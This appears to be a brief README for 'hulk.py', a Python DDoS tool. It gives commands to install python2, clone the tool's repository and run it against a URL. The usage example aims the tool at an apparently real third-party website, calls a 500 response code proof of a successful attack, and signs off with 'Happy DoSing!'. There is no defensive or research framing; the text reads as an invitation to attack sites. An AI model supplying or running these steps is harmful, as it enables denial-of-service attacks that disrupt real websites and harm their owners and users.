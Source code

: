 


This contains a file named hulk.py
Hulk.py is one of the best DDoS tools which is written in python.
Installation commands:-

pkg install python2
git clone https://github.com/DarkMennA/hulk

chmod +x hulk.py

Usage:- 
python2 hulk.py "link"

Example:- python2 hulk.py http://www.kalkaeducationalsociety.com
If the result come RESPONSE CODE 500 then your DoS attack is successful.
Handshake!!
But some websites blocks you ip which may also show RESPONSE CODE 500
Happy DoSing !
-----END------
